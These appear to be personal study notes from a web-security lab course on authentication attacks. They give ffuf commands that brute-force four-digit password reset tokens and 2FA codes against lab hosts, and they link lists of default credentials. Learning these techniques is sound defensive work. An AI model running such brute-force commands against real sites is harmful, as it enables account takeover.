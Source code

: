 >[!code]- Brute forcing password reset codes
>>[!info]- Information
>>
>>![[Images/Pasted image 20250725065706.png]]
>
>Imagine we create a new account on a web app and asked to reset our password. We receive this email:
>```
>Hello,
>
>We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:
>
>1. Click on the following link to reset your password: Click
>
>2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351
>
>Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.
>
>Thank you.
>```
>
>The reset token is accessible via a GET request and is only 4 digits long, meaning a total of 10,000 possible tokens at any one time. We could brute force these tokens at any one time to see whether we can find an active one.
>
>```powershell
># Generate a list of numbers from 0 to 9999 (-w pads the numbers to all be same length)
>seq -w 0 9999 > tokens.txt
>
>ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
>```

>[!code]- Brute forcing 2FA codes
>>[!info]- Information
>>Upon logging in, we are presented with a 2FA code field to pass:
>>
>>![[Images/Pasted image 20250725071929.png]]
>>
>```powershell
>ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
>```

>[!code]- Default credentials
>- [CIRT.net](https://www.cirt.net/passwords) (a list of default credentials)
>- [SecList default passwords](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials)list
>- A Google search ("_webapp-name_ default credentials")

